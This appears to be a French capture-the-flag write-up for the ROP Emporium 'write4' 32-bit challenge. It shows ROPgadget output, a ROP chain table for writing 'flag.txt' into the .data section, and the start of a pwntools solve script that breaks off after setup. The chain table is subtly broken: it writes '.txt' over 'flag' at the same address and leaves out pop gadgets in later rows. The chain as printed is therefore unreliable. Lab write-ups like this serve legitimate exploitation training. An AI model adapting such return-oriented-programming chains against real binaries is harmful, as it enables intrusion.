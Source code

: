 On retient : 0x08048543 : mov dword ptr [edi], ebp ; ret

Pour charger edi :

    ropemporium/x32/write4# ROPgadget --binary write432 --depth 4| grep "pop edi"
    0x080485aa : pop edi ; pop ebp ; ret
    0x080485a9 : pop esi ; pop edi ; pop ebp ; re

ah ok ! On a un gadget pour nos deux registres.

Comme nous somme sur un architecture 32 bits il faudra plusieurs operations pour ecrire "flag.txt"

### La chaine de ROP

| ROP entry | comment |
| ----------- | ------- |
| 0x080485aa | pop edi; pop ebp; ret |
| 0x0804a018 | .data pour edi|
| b"flag" | pour ebp |
| 0x08048543 | mov dword ptr [edi], ebp ; ret |
| 0x080485aa | pop edi; pop ebp; ret |
| 0x0804a018 | .data pour edi|
| b".txt" | pour ebp |
| 0x08048543 | mov dword ptr [edi], ebp ; ret |
| 0x0804a01c | .data+4 pour edi|
| b".txt" | pour ebp |
| 0x08048543 | mov dword ptr [edi], ebp ; ret |
| 0x0804a020 | .data+8 pour edi|
| 0x00000000 | pour ebp |
| 0x08048543 | mov dword ptr [edi], ebp ; ret |
| 0x08048538 | usefulFunction+14  |
| 0x0804a018 | .data  |

## Exploitation

### Script python

```python

ropemporium/x32/write4# cat solve.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break apres le read dans pwnme
gs='''
b *pwnme+177
c
'''

# Set up pwntools for the correct architecture
elf =  ELF('write432')
context.binary=elf
```